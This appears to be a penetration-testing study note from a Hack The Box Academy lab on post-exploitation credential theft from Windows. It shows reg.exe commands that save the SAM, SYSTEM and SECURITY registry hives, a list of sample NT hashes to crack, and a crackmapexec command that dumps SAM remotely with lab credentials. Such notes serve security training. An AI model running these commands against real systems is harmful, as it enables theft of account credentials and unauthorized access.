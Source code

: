 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Information
---
```

With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.

#### Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

## Dumping Hashes

See [[Impacket#Dump Credentials]]

## Cracking Hashes

1. Add hashes to a list

```shell-session
sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```

2. Crack hashes using [[Hashcat#NT Hashes]] or [[John the Ripper]]


## Dumping Remotely

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

